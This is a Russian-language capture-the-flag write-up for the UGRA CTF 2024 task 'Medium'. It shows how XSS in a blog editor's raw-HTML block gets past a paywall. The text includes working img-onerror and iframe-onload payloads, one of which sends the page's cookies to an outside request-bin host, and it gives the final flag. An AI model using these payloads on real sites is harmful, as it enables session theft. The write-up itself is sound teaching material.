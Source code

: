 # Medium: Write-up

Заходим на сайт и видим одну статью с разбором задания **Secure Vault**. Разбор выглядит как что-то, нагенерированное ChatGPT:

![Разбор](writeup/writeup-top.png)

В условии задания Medium сказано, что его флаг уже использовался ранее; по-видимому, нужно просто заслать флаг от Secure Vault.

К сожалению, сделать это сложно, потому что в какой-то момент разбор обрывается так:

![🔒 Продолжение статьи доступно только по платной подписке. Свяжитесь с автором для получения доступа.](writeup/locked.png)

Получается, нужно как-то обойти проверку на подписку.

Чтобы понять, как эта проверка реализована, создадим свою статью с платной подпиской.

![Статья](writeup/article-owner.png)

Снизу справа есть две кнопки, генерирующие:

- Публичную ссылку: https://medium.s.2024.ugractf.ru/jmasxqhy8z3072h1/mkk4e2kAK9NiguilVSG3gw/
- Приватную ссылку: https://medium.s.2024.ugractf.ru/jmasxqhy8z3072h1/mkk4e2kAK9NiguilVSG3gw/?password=olBIamGoMJoDTyQFkTSyHg

Публичная ссылка в точности совпадает с той, по которой мы создаем или редактируем статью. При этом сайт должен как-то понимать, кто его открывает, потому что при открытии этой ссылки в режиме инкогнито получаем следующее:

![Статья](writeup/article-public.png)

Поищем куки:

![Cookies](writeup/cookie.png)

Если создать еще одну статью, сервер создаст еще одну куку `password` с другим значением и другим параметром `path`. Получается, у каждой статьи есть свой пароль, позволяющий ее редактировать, и сервер сравнивает с ним переданную куку `password`. Поскольку у каждой куки `password` свой параметр `path`, при открытии статьи на сервер передается только пароль к этой статье.

Пароль в куках не совпадает с паролем в приватной ссылке. Действительно, если открыть приватную ссылку в режиме инкогнито, то произойдет установка куки и переадресация, и мы увидим следующую картину:

![Статья](writeup/article-private.png)

В условии сказано, что нас просят выложить анекдоты, а владелец сайта, по-видимому, их прочитает. Итак, наша задача -- каким-то образом вытащить куку `password` от страницы с разбором, когда автор (или кто-то еще, у кого есть приватная ссылка на статью с разбором) зайдет пойдет читать наши анекдоты.

В коде страницы видим:

```javascript
class PatchedRawTool extends RawTool {
	render() {
		const wrapper = super.render();
		if (this.readOnly) {
			const div = document.createElement("div");
			div.innerHTML = this.data.html;
			wrapper.appendChild(div);
			this.textarea.hidden = true;
		} else {
			this.textarea.addEventListener("keydown", e => {
				// Make backspace work correctly
				if (e.key === "Backspace") {
					e.stopPropagation();
				}
			})
		}
		return wrapper;
	}
}
```

Получается, для запуска JavaScript-кода на своей странице можно воспользоваться контейнером "Raw HTML" в редакторе. При открытии страницы без прав редактирования (т.е. по публичной или приватной ссылке) HTML вставится через тег `innerHTML`.

Попробуем написать простейший эксплоит:

![Эксплоит](writeup/exploit1-owner.png)

Откроем в режиме инкогнито, и...

![Эксплоит](writeup/exploit1-public.png)

Ничего не произошло! При этом в DevTools видим, что тег `<script>` вставился:

![DevTools](writeup/exploit1-devtools.png)

Почему же он не исполнился? Ответ можно найти, например, [на StackOverflow](https://stackoverflow.com/questions/1197575/can-scripts-be-inserted-with-innerhtml). Содержимое тегов `<script>` не исполняется, если тег был вставлен через `innerHTML`. В ответах можно найти способ тем не менее добиться XSS через тег `<img>`:

```html
<img src="x" onerror="alert(1);">
```

Такой эксплоит уже срабатывает:

![Эксплоит](writeup/exploit2-owner.png)

![Эксплоит](writeup/exploit2-public.png)

Теперь нужно придумать, как вытащить куку с другим значением `path`. Ответ на этот вопрос тоже находится [на StackOverflow](https://stackoverflow.com/questions/945862/retrieve-a-cookie-from-a-different-path). Предлагается создать тег `<iframe>` с `src`, ссылающимся на другую страницу. Заодно можно и воспользоваться обработчиком `onload` у `<iframe>`.

```html
<iframe src="https://medium.s.2024.ugractf.ru/jmasxqhy8z3072h1/y4urwkEjcLxvz9WB/" onload="alert(this.contentDocument.cookie);">
```

При локальном запуске видим пустой `alert`, что, в общем-то, разумно. У автора при этом должны отобразиться куки.

Осталось понять, как передать эти куки себе. Для этого можно воспользоваться любым онлайн-сервисом, который позволяет принимать HTTP-запросы и логировать их. Я, например, обычно пользуюсь [pipedream.com](https://pipedream.com/requestbin/):

![pipedream](writeup/pipedream1.png)

При открытии страницы по ссылке приходит событие:

![pipedream](writeup/pipedream2.png)

Настроим эксплоит так, чтобы он автоматически присылал на эту ссылку куки:

```html
<iframe src="https://medium.s.2024.ugractf.ru/jmasxqhy8z3072h1/y4urwkEjcLxvz9WB/" onload="fetch(`https://eohtssrnoxidmb8.m.pipedream.net/?${this.contentDocument.cookie}`);">
```

Осталось попробовать самим и подождать, пока на страницу зайдет админ:

![pipedream](writeup/pipedream3.png)

Установим эту куку себе, самостоятельно сконструировав URL: https://medium.s.2024.ugractf.ru/jmasxqhy8z3072h1/y4urwkEjcLxvz9WB/?password=kLUMhULhczGL4hkx. Вот и флаг:

![Разбор](writeup/writeup-top.png)

Флаг: **ugra_secure_vault_unlocked_0mbs0t30i787**
